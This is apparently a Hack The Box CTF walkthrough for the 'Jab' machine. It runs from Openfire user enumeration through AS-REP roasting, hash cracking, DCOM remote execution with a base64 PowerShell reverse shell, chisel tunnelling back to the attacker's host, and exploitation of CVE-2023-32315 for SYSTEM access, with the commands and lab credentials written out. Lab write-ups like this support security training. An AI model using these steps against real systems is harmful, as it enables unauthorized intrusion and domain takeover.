


---
---

# HTB - Jab

```bash
sudo nmap -sUV -T4 -F --version-intensity 0 10.129.251.236
```


```bash
nmap 10.129.251.236 -p-
```



```bash
nmap 10.129.251.236 -A
```


- Add jab.htb to /etc/hosts

- From the NMAP scan we can see Openfire is running

- Download the Openfire client - Spark


- Tick "Login anonymously"
(You can click on the arrow next to Username to get a randomly generated username - if you want to enter chatrooms or send messages)

- Enter the domain name

- Click on Advanced


- Untick Auto Discovery and enter the IP and port of the server

- Disable Encryption:


- Under Certificates tick Accept self-signed


- Click Okay and Login

- There isn't much here apart from two conference rooms that we can't join:


- Let's try and enumerate for users - Using the wilcard **\***


- We get a massive list of Openfire users (on the domain)

- We need to add all these usernames into a list

- The way I found was to screenshot a portion of the Usernames field - paste into Paint
Then use <https://brandfolder.com/workbench/extract-text-from-image> to extract the text and paste into the username list

- ASRepRoasting using the users wordlist we made from the Openfire usernames:
```bash
impacket-GetNPUsers jab.htb/ -users users.txt -no-pass -dc-ip 10.129.251.236

```


- Crack the hash using hashcat:
```bash
hashcat -m 18200 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```



- We have credentials:
**jmontgomery : Midnight_121**

- Check the credentials for SMB:
```bash
crackmapexec smb 10.129.251.236 -u "jmontgomery" -p "Midnight_121"

```


- Use these credentials to log back into the Openfire Spark client

- Looking at the conference rooms - There's a new conference room that we can join:


- The penetration testers ran GetUserSPN to get a TGS ticket for a service
- And they found one for svc_openfire

**svc_openfire** : **!@#$%^&*(1qazxsw**
- 
- Looks like no one tested it and the password is still in play:


- From the SMB enum we can see that **svc_openfire is part of the DCOM Users group**:


- Trying to log in through PS, smbexec, psexec, wmiexec or any of those will result in failure - Access Denied


- But using the DCOM protocol and the svc_openfire credentials:
```bash
impacket-dcomexec -object MMC20 jab.htb/svc_openfire:'!@#\$%^&\*(1qazxsw'@10.129.156.10 'cmd.exe /c powershell -e <BASE64_rev_shell>' -silentcommand

```


- We get a shell:


- Upload meterpreter rev.exe and run to upgrade to a meterpreter shell:


<u>Openfire Admin console runs on port 9090</u>

```bash
netstat -ano

```


- We see the admin console running locally on port 9090

- Upload chisel to the target
  - On Kali:
```bash
chisel server -p 8888 --reverse
```
- On target:
```bash
.\chisel.exe client <kali_ip>:8888 R:socks

```
- On Kali - Enable foxyproxy


- Go to <http://localhost:9090> - Log in with svc_openfire credentials


**<u>CVE-2023-32315</u>**

```bash
git clone <https://github.com/miko550/CVE-2023-32315.git>

```
- **If we didn't have a user, do the following:**
```bash
cd CVE-2023-32315
pip3 install -r requirements.txt
python3 CVE-2023-32315.py -t <http://127.0.0.1:9090>

```


- But we can use the svc_openfire user with:
**!@#$%^&*(1qazxsw**

- Go to the Plugins page
- Upload the plugin (openfire-management-tool-plugin.jar ) found in the git repo


- Successfully uploaded and the password is 123
- Go to Server -\> Server Settings -\> Management Tool
(If you take too long, you need to reupload the plugin)


- Enter the password 123

- Click on File system


- Go to:
C:/Users/Administrator/Desktop


- Click edit on root.txt

- Got the root flag:


- We can also execute system commands to get a shell as SYSTEM:

